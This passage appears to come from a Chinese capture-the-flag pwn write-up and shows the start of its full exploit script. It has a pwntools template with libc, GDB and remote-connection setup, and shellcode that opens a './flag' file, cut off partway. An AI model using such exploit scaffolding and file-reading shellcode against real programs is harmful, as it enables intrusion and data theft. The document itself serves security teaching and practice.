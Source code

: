 ##### 2.2.2 完整脚本

```python
#!/usr/bin/env python

'''
    author: Lufiende
'''

from pwn import *
from LibcSearcher import *
import ctypes

filename = "pwn"
libcname = "/home/lufiende/Tools/CTF/Pwn/Glibc/pkgs/2.35-0ubuntu3.8/amd64/libc6_2.35-0ubuntu3.8_amd64/lib/x86_64-linux-gnu/libc.so.6"
filearch = 'amd64'
isAttach = 0
context.log_level = 'debug'
context.os = 'linux'
context.arch = filearch
context.terminal = ["/mnt/c/Windows/System32/cmd.exe", '/c', 'start', 'wsl.exe']

elf = context.binary = ELF(filename)
if libcname:
    libc = ELF(libcname)

gdbscript = '''
b main
set debug-file-directory /home/lufiende/Tools/CTF/Pwn/Glibc/pkgs/2.35-0ubuntu3.8/amd64/libc6-dbg_2.35-0ubuntu3.8_amd64/usr/lib/debug
set directories /home/lufiende/Tools/CTF/Pwn/Glibc/pkgs/2.35-0ubuntu3.8/amd64/glibc-source_2.35-0ubuntu3.8_all/usr/src/glibc/glibc-2.35
'''

processarg = {}

def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript = gdbscript, env=processarg)
    elif args.REMOTE:
        return remote(host, port)
    elif args.ATTACH:
        global isAttach
        isAttach = 1
        return process(elf.path, env=processarg)
    else:
        return process(elf.path, env=processarg)

def dbg():
    if isAttach:
        gdb.attach(io, gdbscript = gdbscript)
        
io = start()

############################################
shellcode = asm(
    '''
    mov rax, 0x67616c662f2e
    push rax
    mov rsi, 0
    mov rdi, rsp
    mov eax, 2
    syscall       // open()
```